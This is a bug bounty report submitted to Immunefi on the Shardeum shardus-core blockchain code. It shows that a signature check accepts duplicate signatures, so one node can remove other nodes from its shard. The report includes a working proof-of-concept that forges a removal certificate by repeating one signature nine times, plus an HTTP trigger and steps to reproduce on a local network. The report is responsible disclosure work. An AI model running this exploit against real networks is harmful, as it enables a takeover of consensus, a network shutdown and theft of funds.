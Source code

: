 
# An attacker can control which nodes can and cannot be in his shard.

Submitted on Jul 15th 2024 at 16:35:46 UTC by @infosec_us_team for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33222

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)
- Direct loss of funds

## Description

## Background For Immunefi's Triagger
> *The trigger reviewing this report may not be as familiar with Shardeum's architecture and codebase as Shardeum's team itself, therefore, to facilitate their understanding of this report and its impact, we are dedicating this section to explain some important concepts of Shardus's Core.*

Sharduss' team shared via the Discord Channel of this Boost their interest in preventing malicious validators from manipulating which nodes join the active set, because by doing so they could take over a sufficient percentage of a shard's voting (by having malicious or modified nodes join a shard), therefore, the attacker would own the outcome of any consensus vote and be able to create any transaction outcome desired.

> The above was almost a word-by-word quote of Chris Chatbot's message: https://discord.com/channels/787092485969150012/1256211020482084987/1259779922616913940

Inspired by Shardu's concerns and request, we discovered during our research a way to kick any or all nodes from a shard, manipulating who can and cannot join a specific shard.

The impact of such actions was described above by the Shardeum's team.

## Summary

During the 1st and 2nd Quarter of every cycle, the nodes of a shard can sign a vote to remove a specific node from the network.

To pass the consensus it is required a min. amount of valid signatures.

Unfortunately, the function `shardus.validateClosestActiveNodeSignatures(...)`, which is used to verify the amount of signatures and their validity, does not check for duplicated signatures.

As a consequence, 1 node can Gossip a `remove-by-app` request containing the same signature (his signature) repeated an unlimited amount of times, to bypass the check for the min. requirement of signers.

This results in 1 node being able to kick anyone/everyone out of his shard, keeping only his other malicious nodes.

## Vulnerability Details

Below is the vulnerable function as a reference:

```
  validateClosestActiveNodeSignatures(
    signedAppData: any,
    signs: ShardusTypes.Sign[],
    minRequired: number,
    nodesToSign: number,
    allowedBackupNodes: number
  ): { success: boolean; reason: string } {
    let validNodeCount = 0
    // let validNodes = []
    let appData = { ...signedAppData }
    if (appData.signs) delete appData.signs
    if (appData.sign) delete appData.sign
    const hash = crypto.hashObj(appData)
    const closestNodes = this.getClosestNodes(hash, nodesToSign + allowedBackupNodes)
    const closestNodesByPubKey = new Map()
    for (let i = 0; i < closestNodes.length; i++) {
      const node = this.p2p.state.getNode(closestNodes[i])
      if (node) {
        closestNodesByPubKey.set(node.publicKey, node)
      }
    }
    for (let i = 0; i < signs.length; i++) {
      const sign = signs[i]
      const nodePublicKey = sign.owner
      appData.sign = sign // attach the node's sig for verification
      if (!closestNodesByPubKey.has(nodePublicKey)) {
        this.mainLogger.warn(`Node ${nodePublicKey} is not in the closest nodes list. Skipping`)
        continue
      }
      const node = closestNodesByPubKey.get(nodePublicKey)
      const isValid = this.crypto.verify(appData, nodePublicKey)
      if (node && isValid) {
        validNodeCount++
      }
      // early break loop
      if (validNodeCount >= minRequired) {
        // if (validNodes.length >= minRequired) {
        return {
          success: true,
          reason: `Validated by ${minRequired} valid nodes!`,
        }
      }
    }
    return {
      success: false,
      reason: `Fail to verify enough valid nodes signatures`,
    }
  }
```
> Code snippet from: https://github.com/shardeum/shardus-core/blob/dev/src/shardus/index.ts#L1780-L1827

As it can be seen by reading the function, there is nothing that prevents sending the same signature for the same owner multiple times, to bypass the `validNodeCount >= minRequired` check.

In the Proof of Concept section we'll describe how we created a malicious node that receives an **HTTP GET** request with the public key of any node within his shard and kicks him out.

This can be exploited to control which nodes can join your shard, hence, manipulating your percentage of a shard's voting.


## Proof of Concept

Download locally Shardus Core repo and Shardeum's repo, then point Shardeum to use the local copy of Shardu's Core.

> Steps to do so are well documented in the respective repos.

Below, we'll create a way for a malicious node to Gossip the exploit to the network.
 
In your local copy of Shardus Core, open the file `/src/shardus/index.ts` and add the following function:

```
  async infosec_gossipRemoveNode(pk: string): Promise<string> {

    let thenodes = nodeListFromStates([
      P2P.P2PTypes.NodeStatus.ACTIVE,
      P2P.P2PTypes.NodeStatus.READY,
      P2P.P2PTypes.NodeStatus.SYNCING,
    ]);

    this.mainLogger.warn(`INFOSEC: Trying to disconnect him: ${pk}`)
    console.log(`INFOSEC: Trying to disconnect him: ${pk}`)

    let certificate: P2P.LostTypes.RemoveCertificate = {
      nodePublicKey: pk, // Victim node
      cycle: CycleCreator.currentCycle - 2,
    };

    const hash = crypto.hashObj(certificate)

    const closestNodes = this.getClosestNodes(hash, 6);
    const closestNodesByPubKey = new Map()
    for (let i = 0; i < closestNodes.length; i++) {
      const node = this.p2p.state.getNode(closestNodes[i])
      if (node) {
        closestNodesByPubKey.set(node.publicKey, node)
      }
    }

    let ourPublicKey = Self.getPublicNodeInfo(true).publicKey;
    if (!closestNodesByPubKey.has(ourPublicKey)) {
      this.mainLogger.warn(`INFOSEC: WE ARE NOT in the closest nodes list.`)
      console.log(`INFOSEC: WE ARE NOT in the closest nodes list.`)
      return "INFOSEC: WE ARE NOT in the closest nodes list.";
    }

    let oursig = this.crypto.sign(certificate).sign;

    certificate.signs = [
      { owner: oursig.owner, sig: oursig.sig },
      { owner: oursig.owner, sig: oursig.sig },
      { owner: oursig.owner, sig: oursig.sig },
      { owner: oursig.owner, sig: oursig.sig },
      { owner: oursig.owner, sig: oursig.sig },
      { owner: oursig.owner, sig: oursig.sig },
      { owner: oursig.owner, sig: oursig.sig },
      { owner: oursig.owner, sig: oursig.sig },
      { owner: oursig.owner, sig: oursig.sig },
    ];

    Comms.sendGossip(
      'remove-by-app',
      certificate, // payload
      'trackthis', // tracker
      Self.id, // sender
      thenodes
    )

    console.log(`INFOSEC: Final object we are going to send: ${JSON.stringify(certificate)}`);

    return `Success: Current Quarter ${currentQuarter} (it only works during Quarter 1 and 2 of each cycle)`;
  }
```

In your local copy of Shardeum, open the file `/src/index.ts` and add the following function:

```
  shardus.registerExternalGet('infosec_gossipRemoveNode', externalApiMiddleware, async (req, res) => {
    const pk = req.query.pk as string;
    console.log(`INFOSEC: Target pk: ${pk}`);
    const result: string = await shardus.infosec_gossipRemoveNode(pk);
    return res.json(`INFOSEC: All good. Result: ${result}`);
  })
```

Build Shardus Core with `npm run build:dev`, build Shardeum with `npm ci && npm run prepare`, and - assuming that you are using the patch for running a network of 10 active nodes - start the network with 12 nodes or more nodes using `shardus start 12`

In our case, it takes anywhere from 15 minutes to 25 minutes for nodes to activate. Wait until the network is running.

Then visit the following link in your browser:
```
http://NODE_EXTERNAL_IP:NODE_EXTERNAL_PORT/infosec_gossipRemoveNode/?pk=PUBLIC_KEY_OF_ACTIVE_NODE_WITHIN_YOUR_SHARD_TO_KICK
```

Replace the placeholders **PUBLIC_KEY_OF_ACTIVE_NODE_WITHIN_YOUR_SHARD_TO_KICK**, **NODE_EXTERNAL_IP**, and **NODE_EXTERNAL_PORT** with the correct values.